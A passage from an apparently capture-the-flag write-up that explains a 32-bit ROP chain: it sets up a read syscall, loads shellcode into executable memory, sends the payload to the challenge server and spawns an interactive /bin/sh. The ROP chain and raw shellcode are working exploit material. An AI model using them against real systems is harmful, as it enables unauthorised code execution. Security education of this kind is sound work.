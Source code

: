 ```python
# set eax = 3
'''
0x804834a:  0x00000003  0x00000000
'''
payload += p(POPRET)    # pop esi; ret
payload += p(0x804834a) # set esi = 0x804834a
payload += p(LESEAX)    # eax -> 0x3 == syscall_read
```

First, I use a `pop esi; ret` gadget to set the value of `esi` to a 48 bit value that contains: 0x3, 0x0. Then I return to the little gadget to set `eax` (and `es`) using those values. This results in `eax` being the correct number for the next syscall, read:

```python
payload += p(SYSCALL)
payload += p(ADDESP)    # fix stack
payload += p(0)         # stdin
payload += p(0x8048000) # address of buffer
payload += p(0x200)     # number of bytes to read
payload += "BBBB"       # dummy value

payload += p(0x8048000)
```

This reads in `0x200` bytes from stdin to the start of the executable section of the binary. Finally, the ROP chain returns to the start of that buffer, which hopefully contains our shellcode! Finally, make sure that the payload is indeed 125 bytes long, else this entire house of cards falls down:

```python
# payload length must be 125, because after read, the next
# syscall is mprotect; eax = 125
payload += "A"*(125-len(payload))
```

Because I ran the executable locally via socat, I need to connect to the proper socket and send the payload. The same goes for the remote connection.

```python
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
#s.connect(("localhost",28099))
s.connect(("pwnable.katsudon.org",28099))

s.send(payload)
```

After finishing the ROP chain, the binary should now be awaiting further shellcode on stdin, so I'd better send that over quickly!

```python
# http://www.shell-storm.org/shellcode/files/shellcode-851.php
s.send("\x31\xc9\xf7\xe9\x51\x04\x0b\xeb\x08\x5e\x87\xe6\x99\x87\xdc\xcd\x80\xe8\xf3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x2f\x73\x68")

# the shell should have been spawned, so interact with it
t = telnetlib.Telnet()
t.sock = s
t.interact()
```
